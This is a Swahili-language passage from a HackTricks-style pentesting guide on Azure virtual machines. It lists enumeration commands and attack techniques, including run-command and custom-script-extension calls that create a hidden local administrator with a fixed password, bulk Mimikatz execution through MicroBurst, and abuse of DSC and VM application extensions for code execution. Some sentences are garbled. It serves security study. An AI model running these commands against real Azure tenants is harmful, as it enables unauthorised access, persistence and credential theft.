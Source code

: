 # Az - Mashine za Virtual & Mtandao

{% hint style="success" %}
Jifunze & zoezi Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa za Msingi

[Kutoka kwa nyaraka:](https://learn.microsoft.com/en-us/azure/viirtual-machines/overview) Mashine za virtual za Azure ni moja ya aina kadhaa za [rasilmali za kompyuta zinazopatikana, zinazoweza kupanuliwa](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) ambazo Azure inatoa. Kawaida, unachagua mashine ya virtual unapohitaji udhibiti zaidi juu ya mazingira ya kompyuta kuliko chaguo zingine zinavyotoa. Makala hii inakupa taarifa kuhusu mambo unayopaswa kuzingatia kabla ya kuunda mashine ya virtual, jinsi ya kuunda, na jinsi ya kuitunza.

## Taarifa za Mtandao wa Azure

Mtandao wa Azure una **vitengo tofauti na njia za kuwezesha usanidi wake.** Unaweza kupata maelezo **mfupi,** **mifano** na **amri za uorodheshaji** za vitengo tofauti vya mtandao wa Azure katika:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** inatoa suluhisho salama, lililosimamiwa kikamilifu la ufikiaji wa RDP (Itifaki ya Desktop ya Mbali) na SSH (Tawi Salama) kupitia SSL kupitia lango la Azure. Imeunganishwa ndani ya Mtandao wa Virtual wa Azure, ikiruhusu uunganisho wa RDP na SSH kwa VMs kutumia IPs za kibinafsi, kuepuka haja ya IPs za umma. Hii inafanya kuwa chaguo salama zaidi, rahisi zaidi kuliko njia za jadi zinazohusisha ugawaji wa IPs za umma na usanidi wa sheria za NSG kwa ufikiaji wa VM. Watengenezaji na wafanyakazi wa IT wanaweza kufikia VMs kwa usalama kutoka kwenye lango la Azure kwa kutumia vivinjari vyao vya wavuti, kupunguza mchakato kwa mazingira ya maendeleo na majaribio.

Kutaja orodha ya Wenyeweji wote wa Azure Bastion katika michango yako, unaweza kutumia amri ifuatayo:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Kuchunguza VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Chalaza amri kwenye VM**

### **AAD Ingia kwenye VM**

Inawezekana kuruhusu ufikiaji kwa watumiaji waliothibitishwa kupitia AzureAD. Kwa mfano, jaribu kupata **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ni muhimu **kutumia barua pepe** na azurecorp iliyotumiwa wakati wa jaribio la kuingia) unaweza kupata kosa kama:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Chukua **maagizo hayo** kwa kwenda [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) na kuonyesha nambari, tumia barua pepe na nenosiri kama sifa na utaweza kuunganisha kupitia SSH (ikiwa mtumiaji huyo ana idhini ya kutosha kufanya hivyo: jukumu la `Kuingia kama Msimamizi wa Mashine Halisi` au `Kuingia kama Mtumiaji wa Mashine Halisi`).

### **Amri ya Kutekeleza**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Endesha Ugani wa Script ya Kipekee**

Vifaa vya ziada vya mashine halisi (VM) vya Azure ni **programu ndogo** zinazotoa usanidi baada ya kupeleka na kazi za otomatiki kwenye **VM za Azure**. Kwa mfano, ikiwa mashine halisi inahitaji usakinishaji wa programu, ulinzi wa antivirus, au uwezo wa kuendesha script ndani yake, unaweza kutumia kifaa cha ziada cha VM.

Kwa hivyo, ikiwa una ufikiaji wa kuandika, unaweza kutekeleza nambari ya kupindukia:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### Hali ya Usanidi Inayotakiwa (DSC)

Hali ya Usanidi Inayotakiwa (DSC) ni chombo cha PowerShell kinachofanana na Ansible, kinachotumika kuweka mwenyeji kupitia nambari. DSC inashirikiana na Azure, kuruhusu kupakia faili za usanidi maalum. Faili hizi lazima zizingatie muundo wa sintaksia kali. Kwa kipekee, kipanuzi cha DSC katika Azure kinaweza kutekeleza amri kutoka kwenye faili zinazok kufikia vigezo fulani vya muundo, hata kama sintaksia sio sahihi kwa viwango vya DSC, kama inavyoonyeshwa kwenye mchoro uliotolewa.

Utekelezaji wa amri hizi unarahisishwa na kazi ya [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) katika Az PowerShell. Mahitaji ni pamoja na faili ya **.PS1** yenye kazi iliyoelezwa na faili lazima zipwe katika faili ya **.zip**. Hata kama sintaksia mighairi sahihi kwa DSC, nambari itatekelezwa bado. Hata hivyo, kipanuzi kitaweka hali ya utekelezaji kama "kushindwa," na hakutakuwa na matokeo yoyote kutoka kwa amri kutokana na hali hiyo kubadilishwa na ujumbe wa kushindwa.

### Vifafan:  documented in the provided figure. Vifafanisho vya Maombi ya VM

Vifafanisho vya Maombi ya VM huruhusu kupeleka ten kwa urahisi wa matoleo ya maombi kwa VM ya Azure. Rasilimali hii inasaidia kupeleka na kusasisha maombi kote kwenye VMs. Kuweka hii, hatua kadhaa zinahitajika, zikiingiza amri kama **`New-AzGalleryApplication`** na **`New-AzGalleryApplicationVersion`** katika Az PowerShell.

Utekelezaji wa maombi au amri kupitia njia hii unahusisha **"VMAppExtension"**, ambayo inasakinishwa moja kwa moja wakati maombi yanatumika kwa VM. Kipanuzi hicho hupata faili kutoka kwenye URI iliyotajwa na kuipa jina sawa na maombi, bila kuwa na mghairi. Ili kutekeleza faili kwa usahihi, uga wa "ManageActions" katika wito wa API ya REST lazima uwe umewekwa kubadilisha jina la faili na mghairi sahihi. Kuweka njia hii, mara baada ya kukamilika, itafanana na muundo ulioonyeshwa kwenye mchoro uliotolewa.

Hata hivyo, njia hii ya utekelezaji ni polepole kiasi, ikichukua dakika 3-4 kutekeleza maombi au amri. Faili zinazohusiana na mchakato huu zimehifadhiwa katika saraka maalum (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` kwa nakala ya maombi na `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` kwa hali ya utekelezaji).

Mbinu zote zinatoa njia za kipekee za kutekeleza amri na kupeleka maombi katika mazingira ya Azure, kila moja ikiwa na mahitaji yake, hatua, na mambo ya kuzingatia.
